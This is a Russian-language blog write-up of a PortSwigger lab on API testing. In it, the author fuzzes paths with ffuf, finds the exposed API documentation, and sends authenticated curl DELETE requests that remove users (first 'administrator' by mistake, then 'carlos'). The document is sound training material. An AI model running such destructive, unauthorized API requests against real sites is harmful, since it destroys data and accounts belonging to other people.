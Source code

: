 ```yaml
---
title: "Exploiting an API endpoint using documentation"
date: 2025-07-29
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/api-testing/api-testing-api-documentation/api-testing/lab-exploiting-api-endpoint-using-documentation"
classes: wide
---
```


Для прохождения лабы нужно удалить пользователя `carlos`. Для этого нужно найти подходящий ендпоинт.

Для в хода в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net
```

## Solution

Зайду в аккаунт, чтобы посмотреть, что вообще доступно пользователю.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Exploiting_an_API_endpoint_using_documentation/1.png){: height="200" .align-center}

Попробую обновить почту, чтобы посмотреть, как формируется запрос для этого. Предварительно запущу `ffuf` по списку популярных путей в `API`, чтобы попробовать найти ендпоинты.

```bash
ffuf -u https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/FUZZ -w wordlists/common.txt
```

Итак, попробую изменить почту на `new@mail.net`. Для этого отправлю следующий запрос:

```http
PATCH /api/user/wiener HTTP/2
Host: 0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net
Cookie: session=AIJf2Ci7rfaIg4i9yPYNfeLCp1RISEB5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 25
Origin: https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"new@email.net"}
```

Судя по всему на сайте есть ендпоинт `/api/user/<username>`. Посмотрю, что насканил `ffuf`:

```
Login                   [Status: 200, Size: 3172, Words: 1315, Lines: 64, Duration: 63ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 61ms]
api                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 65ms]
filter                  [Status: 200, Size: 10729, Words: 5059, Lines: 199, Duration: 62ms]
login                   [Status: 200, Size: 3172, Words: 1315, Lines: 64, Duration: 63ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 61ms]
```

Он тоже насканил `/api`. Попробую открыть эту страницу:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Exploiting_an_API_endpoint_using_documentation/2.png){: height="200" .align-center}

Собственно вот они — все доступные методы `API`. Среди них есть нужный мне — `DELETE`. Отправлю нужный запрос с помощью `curl`:

```bash
cu63:~/ $ curl -X 'DELETE' https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/api/user/administrator                                      
"Unauthorized"%
```

Попробую добавить `Cookie`:

```
cu63:~/ $ curl -X 'DELETE' https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/api/user/administrator -b "session=AIJf2Ci7rfaIg4i9yPYNfeLCp1RISEB5"                                                                                                               
{"status":"User deleted"}%
```

Пуф, и нет человека)

Упс... Я удалил не того. Ну и ладно. На этот раз все получится)

```
cu63:~/ $ curl -X 'DELETE' https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/api/user/carlos -b "session=AIJf2Ci7rfaIg4i9yPYNfeLCp1RISEB5"                                                                                                               
{"status":"User deleted"}%
```

Теперь лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Exploiting_an_API_endpoint_using_documentation/3.png){: height="200" .align-center}